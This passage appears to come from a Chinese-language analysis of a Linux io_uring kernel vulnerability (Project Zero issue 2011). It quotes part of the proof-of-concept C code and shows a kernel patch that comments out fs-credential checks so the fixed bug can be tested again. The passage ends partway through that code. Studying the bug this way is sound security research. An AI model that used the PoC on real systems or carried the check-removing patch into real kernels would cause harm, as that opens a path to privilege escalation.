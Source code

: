 可以在[这里](https://bugs.chromium.org/p/project-zero/issues/detail?id=2011) 找到jannh 的poc,

```
int main(void) {
  // initialize uring
  struct io_uring_params params = { };
  int uring_fd = SYSCHK(syscall(SYS_io_uring_setup, /*entries=*/10, &amp;params));
  unsigned char *sq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQ_RING));
  unsigned char *cq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_CQ_RING));
  struct io_uring_sqe *sqes = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQES));

  // execute openat via uring
  sqes[0] = (struct io_uring_sqe) {
    .opcode = IORING_OP_OPENAT,
    .flags = IOSQE_ASYNC,
    .fd = open("/", O_RDONLY),
    .addr = (unsigned long)"/",
    .open_flags = O_PATH | O_DIRECTORY
  };
   ((int*)(sq_ring + params.sq_off.array))[0] = 0;
  (*(int*)(sq_ring + params.sq_off.tail))++;
  int submitted = SYSCHK(syscall(SYS_io_uring_enter, uring_fd, /*to_submit=*/1, /*min_complete=*/1, /*flags=*/IORING_ENTER_GETEVENTS, /*sig=*/NULL, /*sigsz=*/0));
```

主要看传入的 `sqes` 部分， 传入的opcode是`IORING_OP_OPENAT`, `IOSQE_ASYNC` 表示用异步的方式，打开的是`"/"` 目录

因为这里使用的内核是已经打上了补丁了，为了测试漏洞，我们需要手动patch一下，找到`fs/io_uring.c` 文件, 按照下面把对 fs的检查注释掉。

```
static inline void io_req_work_grab_env(struct io_kiocb *req,    
                    const struct io_op_def *def)                 
{                                                                
    if (!req-&gt;work.mm &amp;&amp; def-&gt;needs_mm) {                        
        mmgrab(current-&gt;mm);                                     
        req-&gt;work.mm = current-&gt;mm;                              
    }                                                            
    if (!req-&gt;work.creds)                                        
        req-&gt;work.creds = get_current_cred();                    
    /*if (!req-&gt;work.fs &amp;&amp; def-&gt;needs_fs) {*/                    
        /*spin_lock(&amp;current-&gt;fs-&gt;lock);*/                       
        /*if (!current-&gt;fs-&gt;in_exec) {*/                         
            /*req-&gt;work.fs = current-&gt;fs;*/                      
            /*req-&gt;work.fs-&gt;users++;*/                           
        /*} else {*/                                             
            /*req-&gt;work.flags |= IO_WQ_WORK_CANCEL;*/            
        /*}*/                                                    
        /*spin_unlock(&amp;current-&gt;fs-&gt;lock);*/                     
    /*}*/                                                        
    if (!req-&gt;work.task_pid)                                     
        req-&gt;work.task_pid = task_pid_vnr(current);              
}                                                                
static inline void io_req_work_drop_env(struct io_kiocb *req)     
{                                                                 
    if (req-&gt;work.mm) {                                           
        mmdrop(req-&gt;work.mm);                                     
        req-&gt;work.mm = NULL;                                      
    }                                                             
    if (req-&gt;work.creds) {                                        
        put_cred(req-&gt;work.creds);                                
        req-&gt;work.creds = NULL;                                   
    }                                                             
    /*if (req-&gt;work.fs) {*/                                       
```